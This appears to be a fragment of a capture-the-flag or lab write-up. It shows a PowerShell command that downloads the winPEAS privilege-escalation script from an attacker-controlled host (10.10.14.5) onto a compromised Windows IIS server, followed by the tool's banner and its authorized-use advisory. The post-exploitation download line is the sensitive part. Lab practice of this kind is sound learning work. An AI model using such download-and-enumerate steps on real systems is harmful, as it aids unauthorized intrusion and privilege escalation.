 ``` Powershell 
c:\windows\system32\inetsrv> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5:8000/winPEAS.bat', 'c:\Users\Public\Downloads\wp.bat')"
```

While running winPEAS.bat i could't find anything may be this is my first time using winPEASE, but i find the system information.

``` Powershell
C:\Users\Public>Downloadswp.bat                                                                                                                                                                                    
Downloadswp.bat                                                                                                                                                                                                    
                                                                                                                                                                                                                   
            ((,.,/((((((((((((((((((((/,  */                                                                                                                                                                       
     ,/*,..*(((((((((((((((((((((((((((((((((,                                                                                                                                                                     
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*                                                                                                                                                                  
   ((((((((((((((((* *****,,,/########## .(* ,((((((                                                                                                                                                               
   (((((((((((/* ******************/####### .(. ((((((                                                                                                                                                             
   ((((((..******************/@@@@@/***/###### /((((((                                                                                                                                                             
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
   .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/
                       by carlospolop


/!\ Advisory: WinPEAS - Windows local Privilege Escalation Awesome Script
   WinPEAS should be used for authorized penetration testing and/or educational purposes only.
   Any misuse of this software will not be the responsibility of the author or of any other collaborator.                                                                                                          
   Use it at your own networks and/or with the network owner's permission.
   
   ```